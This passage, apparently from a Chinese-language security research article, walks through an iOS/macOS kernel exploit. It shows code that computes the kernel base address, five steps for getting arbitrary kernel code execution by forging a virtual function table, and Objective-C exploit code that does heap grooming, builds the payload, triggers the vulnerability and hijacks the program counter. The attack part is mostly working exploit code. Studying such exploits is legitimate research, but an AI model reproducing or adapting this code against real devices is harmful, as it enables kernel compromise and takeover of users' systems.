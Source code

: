 ```
    ((*fifth_function_ptr_of_vtable - (0x200 &lt;&lt; 12)) &amp; 0xffffff80ffe00000) + 0x2000;
     
    return kernel_base;
`}`
```

表25:计算内核基地址

### 内核任意代码执行

内核任意代码执行与内核读的利用思路相同,只是细节上有些差别,利用过程为:

1、利用内存映射,将一部分内核内存映射到用户空间。

2、通过内核读,计算出所映射的内存在内核中的真实地址。

3、构造一个虚函数表,填充到映射的内存中。

4、利用漏洞覆盖小对象的内存,只是 Payload 构造的主要目标是改写虚函数表指针。

5、调用 Hacked 的对象的方法,比如:释放,这样就控制了 PC 指针。

```
- (void)arbitraryExecutationDemo
`{`
    mach_port_name_t port_960 = 0;
    [self prepareReceivePort1:NULL port2:&amp;port_960];
     
    io_connect_t fengshuiObjBuf[PRTS_ContinuousMemoryCount] = `{`0`}`;
    mach_vm_address_t firstObjectKAddr = NULL;
    mach_vm_address_t lastObjectKAddr = NULL;
    [self allocObjects:fengshuiObjBuf
      firstObjectKAddr:&amp;firstObjectKAddr
       lastObjectKAddr:&amp;lastObjectKAddr];
     
    _fengshui_not_released_obj_count = PRTS_FengshuiObjectCountKeep;
     
    uint8_t ool_buf_960[0x400] = `{`0`}`;
    [self constructArbitraryExePayload:ool_buf_960
                         vtableAddress:_fake_port_kernel_address_base];
     
    [self doFengshuiRelease2:fengshuiObjBuf];
    [self waitFengshuiService];
     
    [self triggerExploit];
     
    [self allocVMCopy:port_960
                 size:960
               buffer:ool_buf_960
      descriptorCount:2];
     
    [self releaseResource];
     
    io_connect_t hacked_connection =
    fengshuiObjBuf[PRTS_ContinuousMemoryCount - _fengshui_not_released_obj_count - 1];
     
    printf("[+] start to trigger arbitrary executation, device will rebootn");
    IOServiceClose(hacked_connection);
    [self waitFengshuiService];
    printf("[+] success to trigger arbitrary executation, device will rebootn");
`}`
```
